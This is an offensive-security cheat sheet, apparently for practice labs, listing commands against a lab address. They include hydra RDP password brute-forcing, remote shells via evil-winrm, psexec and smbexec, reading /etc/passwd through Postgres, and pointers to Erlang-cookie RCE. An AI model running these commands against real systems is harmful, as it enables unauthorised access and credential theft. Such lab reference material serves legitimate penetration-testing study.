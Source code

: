 **Crack RDP**
1: Could lead to lock
2: hydra -t 1 -V -f -l administrator -P rockyou.txt rdp://10.10.10.10

**Have credential but RDP is disabled**
1: evil-winrm -u admin -p 123123 -I 10.10.10.10
2: python smbexec.py admin:123123@10.10.10.10 cmd.exe
3: python psexec.py admin:123123@10.10.10.10 cmd.exe




# Postgres

1: **psql -h 10.10.10.10 -p 5432 -U postgres -W postgres**
2: **\list** , **\c postgres** , **\d**
3: **select pg_ls_dir('/')**
4: Read a file: **create table demo (t text)** ; **copy demo from '/etc/passwd'** ;
**select * from demo;**
5: **RCE**
###Ref: **Nibbles** , **Splodge**



# VNC

1: Port **5800, 5801, 5900, 5901**
2: **vncviewer 10.10.10.10:5901**
3: Sometimes **GUI** is **required** for some programs
###Ref: **Nukem**




# Additional Service
**Erlang**
1: port **4369** , service: epmd
2: **nmap -sV -Pn -n -T4 -p 4369 --script epmd-info 10.10.10.10**
3: Find **erlang cookie** ( **.erlang.cookie** ) to launch **RCE** attack
###Ref: **Clyde**

 **RSYNC**

1: a: **rlwrap nc -nv -C 10.10.10.10 873**
b: **@RSYNCD 31.0**
c: **# list**
###Ref: **Fail**
**IRC
1: Hexchat
2: Telnet or nc**
a: **rlwrap nc -nv -C 10.10.10.10 6667**
b: **USER kali 0 * kali, NICK kaliii** (Quick!)
c: **VERSION, INFO, LIST, ADMIN**
###Ref: UT99
